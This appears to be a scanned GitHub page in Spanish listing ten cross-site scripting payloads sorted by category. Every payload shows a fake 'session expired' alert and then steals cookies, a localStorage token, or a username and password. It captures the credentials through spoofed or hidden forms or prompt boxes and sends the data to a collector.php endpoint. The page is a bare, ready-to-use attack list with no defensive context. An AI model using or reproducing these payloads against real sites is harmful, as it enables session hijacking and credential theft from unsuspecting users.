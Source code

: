 ### **Payloads XSS con categoría**

1. **Alert + cookies (categoria=cookies)**
    

`<script>alert('Su sesión expiró');var i=document.createElement('iframe');i.src='http://localhost/collector.php?categoria=cookies&data='+encodeURIComponent(document.cookie);document.body.appendChild(i);</script>`

2. **Alert + localStorage (categoria=localStorage)**
    

`<script>alert('Sesión expirada');fetch('http://localhost/collector.php?categoria=localStorage&data='+encodeURIComponent(localStorage.getItem('token')));</script>`

3. **Alert + formulario falso (categoria=credenciales)**
    

`<script>alert('Error de sesión');var f=document.createElement('form');f.innerHTML='Usuario:<input name="user">Contraseña:<input type="password" name="pass"><input type="submit">';document.body.innerHTML=f.outerHTML;f.addEventListener('submit',function(e){e.preventDefault();fetch('http://localhost/collector.php?categoria=credenciales&data='+encodeURIComponent('Usuario:'+e.target.user.value+'|Pass:'+e.target.pass.value));});</script>`

4. **Alert + formulario invisible (categoria=credenciales)**
    

`<script>alert('Su sesión expiró');var f=document.createElement('form');f.style.display='none';f.innerHTML='<input name="u"><input type="password" name="p"><input type="submit">';document.body.appendChild(f);f.addEventListener('submit',function(e){e.preventDefault();fetch('http://localhost/collector.php?categoria=credenciales&data='+encodeURIComponent(e.target.u.value+'|'+e.target.p.value));});</script>`

5. **Alert + reemplazo DOM + cookies (categoria=cookies)**
    

`<script>alert('Sesión expirada');document.body.innerHTML='<h2>Por favor vuelva a iniciar sesión</h2>';var i=document.createElement('iframe');i.src='http://localhost/collector.php?categoria=cookies&data='+encodeURIComponent(document.cookie);document.body.appendChild(i);</script>`

6. **Alert + input prompt + fetch (categoria=credenciales)**
    

`<script>alert('Su sesión expiró');var u=prompt('Usuario:'),p=prompt('Contraseña:');fetch('http://localhost/collector.php?categoria=credenciales&data='+encodeURIComponent('Usuario:'+u+'|Pass:'+p));</script>`

7. **Alert + cookies + localStorage (categoria=mixed)**
    

`<script>alert('Sesión expirada');fetch('http://localhost/collector.php?categoria=mixed&data='+encodeURIComponent(document.cookie+'|'+localStorage.getItem('token')));</script>`

8. **Alert + cambio de título + cookies (categoria=cookies)**
    

`<script>alert('Error de sesión');document.title='Sesión expirada';var i=document.createElement('iframe');i.src='http://localhost/collector.php?categoria=cookies&data='+encodeURIComponent(document.cookie);document.body.appendChild(i);</script>`

9. **Alert + input + cookies (categoria=credenciales)**
    

`<script>alert('Su sesión expiró');var u=prompt('Usuario:');var i=document.createElement('iframe');i.src='http://localhost/collector.php?categoria=credenciales&data='+encodeURIComponent('Usuario:'+u+'|Cookie:'+document.cookie);document.body.appendChild(i);</script>`

10. **Alert + formulario + localStorage (categoria=localStorage)**
    

`<script>alert('Error de sesión');var f=document.createElement('form');f.innerHTML='Token:<input name="t"><input type="submit">';document.body.innerHTML=f.outerHTML;f.addEventListener('submit',function(e){e.preventDefault();fetch('http://localhost/collector.php?categoria=localStorage&data='+encodeURIComponent(localStorage.getItem('token')));});</script>`